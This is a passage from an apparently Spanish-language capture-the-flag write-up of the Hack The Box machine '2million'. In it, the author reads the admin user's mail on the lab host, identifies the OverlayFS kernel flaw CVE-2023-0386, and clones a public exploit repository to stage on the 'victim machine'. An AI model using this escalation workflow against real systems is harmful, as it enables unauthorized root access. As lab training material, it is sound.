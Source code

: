 ```bash
/run/user/1000/gnupg/S.dirmngr
/run/user/1000/bus
/home/admin
/home/admin/.cache
/home/admin/.cache/motd.legal-displayed
/home/admin/.ssh
/home/admin/.profile
/home/admin/.bash_logout
/home/admin/.bashrc
/var/mail/admin
/dev/pts/1
admin@2million:~$
```

Se observa el recurso `/var/mail/admin`, vamos a ver el contenido del recurso:

```bash
admin@2million:/var/mail$ cat admin 
From: ch4p <ch4p@2million.htb>
To: admin <admin@2million.htb>
Cc: g0blin <g0blin@2million.htb>
Subject: Urgent: Patch System OS
Date: Tue, 1 June 2023 10:45:22 -0700
Message-ID: <9876543210@2million.htb>
X-Mailer: ThunderMail Pro 5.2

Hey admin,

I'm know you're working as fast as you can to do the DB migration. While we're partially down, can you also upgrade the OS on our web host? There have been a few serious Linux kernel CVEs already this year. That one in OverlayFS / FUSE looks nasty. We can't get popped by that.

HTB Godfather
admin@2million:/var/mail$
```

 De acuerdo con el correo electrónico, el sistema presenta una vulnerabilidad relacionada con el kernel de Linux. Investigando un poco, encontramos el sigueinte recurso [CVE-2023-0386](https://securitylabs.datadoghq.com/articles/overlayfs-cve-2023-0386/) y buscando exploits públicos, utilizaremos el siguiente [Github sxlmnwb](https://github.com/sxlmnwb/CVE-2023-0386); asi que primero vamos a descargar el recurso y transferirlo a la máquina víctima:

```bash
❯ git clone https://github.com/sxlmnwb/CVE-2023-0386
Cloning into 'CVE-2023-0386'...
remote: Enumerating objects: 13, done.
remote: Counting objects: 100% (13/13), done.
remote: Compressing objects: 100% (9/9), done.
remote: Total 13 (delta 2), reused 13 (delta 2), pack-reused 0
Receiving objects: 100% (13/13), 8.89 KiB | 8.89 MiB/s, done.
Resolving deltas: 100% (2/2), done.
❯ tar -cvf CVE-2023-0386.tar CVE-2023-0386/
CVE-2023-0386/
CVE-2023-0386/.git/
CVE-2023-0386/.git/branches/
CVE-2023-0386/.git/hooks/
CVE-2023-0386/.git/hooks/applypatch-msg.sample
CVE-2023-0386/.git/hooks/commit-msg.sample
CVE-2023-0386/.git/hooks/fsmonitor-watchman.sample
CVE-2023-0386/.git/hooks/post-update.sample
CVE-2023-0386/.git/hooks/pre-applypatch.sample
CVE-2023-0386/.git/hooks/pre-commit.sample
CVE-2023-0386/.git/hooks/pre-merge-commit.sample
CVE-2023-0386/.git/hooks/pre-push.sample
CVE-2023-0386/.git/hooks/pre-rebase.sample
```